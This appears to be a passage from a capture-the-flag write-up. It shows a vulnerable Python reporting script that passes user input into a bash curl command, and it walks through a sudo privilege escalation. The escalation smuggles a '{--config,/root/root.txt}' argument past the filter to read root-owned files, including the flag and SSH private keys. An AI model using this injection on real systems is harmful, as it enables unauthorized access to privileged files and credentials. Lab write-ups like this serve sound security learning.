 ```
            "'",
            '@',
            '#',
            '$',
            '%',
            '^',
            '(',
            ')']
        ip = input('Enter the IP/file_name:')
        res = bool(re.search('\\s', ip))
        if res:
            print('INVALID IP')
            sys.exit(0)
        if 'file' in ip and 'gopher' in ip or 'mysql' in ip:
            print('INVALID URL')
            sys.exit(0)
        cmd = '/bin/bash -c "curl ' + ip + ' -o /root/reports/threat_report_' + current_time + '"'
        os.system(cmd)
```

Looking at the code, we can see a command is being called to download reports. It is using curl command to do that. It has also filter in place to protect from injection attacks. We can’t possibly run bash commands to gain shell, we have to use curl flags or switches to read either root flag or SSH private keys.

```
code@code:~$ sudo /usr/bin/treport
1.Create Threat Report.
2.Read Threat Report.
3.Download A Threat Report.
4.Quit.
Enter your choice:3
Enter the IP/file_name:{--config,/root/root.txt}
Warning: /root/root.txt:1: warning: '------FLAG------' is
Warning: unknown
curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
Enter your choice:
```

As you can see from the command injection list ‘curly brackets’ are not being filtered, we take advantage of that to pass curl config switch to expose root flag. This curl switch actually can’t read the files, but the functionality of that is, if the text file is not in curl Standard format then it just prints out all the content of that given file. I got SSH private keys, but the SSH configuration only accepts password for authentication, not keys.
